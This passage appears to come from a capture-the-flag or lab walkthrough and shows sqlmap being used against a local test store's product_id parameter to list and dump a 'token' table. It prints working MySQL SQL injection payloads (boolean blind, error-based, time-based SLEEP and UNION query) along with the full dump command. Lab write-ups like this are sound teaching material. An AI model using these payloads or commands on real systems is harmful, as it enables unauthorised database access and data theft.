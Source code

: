 ```console
[21:54:16] [INFO] the SQL query used returns 1 entries
[21:54:16] [INFO] retrieved: "token","varchar(50)"
Database: testlab                                                              
Table: token
[1 column]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| token  | varchar(50) |
+--------+-------------+

[21:54:16] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 21:54:16
```

Okay, so apparently there is only one column in the tokens table called __token__. We can now use the `--dump` option in sqlmap to dump all the contents from the token table.

__Please Note__: I replaced the token with `*` to prevent anyone from seeing the real token - that's just cheating!

```console
root@kali:~/gds# sqlmap -u "http://localhost:8080/index.php?route=product/product&product_id=53" -p product_id -D testlab -T token --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.0.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 21:54:49

[21:54:49] [INFO] resuming back-end DBMS 'mysql' 
[21:54:49] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: product_id (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: route=product/product&product_id=53 RLIKE (SELECT (CASE WHEN (7914=7914) THEN 53 ELSE 0x28 END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: route=product/product&product_id=53 AND (SELECT 8445 FROM(SELECT COUNT(*),CONCAT(0x717a707671,(SELECT (ELT(8445=8445,1))),0x716a626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: route=product/product&product_id=53 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: route=product/product&product_id=53 UNION ALL SELECT NULL,NULL,CONCAT(0x717a707671,0x725662454c43554b68684f43466171746e51794c4a6d677568725856746f66754654414a6e635452,0x716a626a71)-- FTqd
---
[21:54:49] [INFO] the back-end DBMS is MySQL
```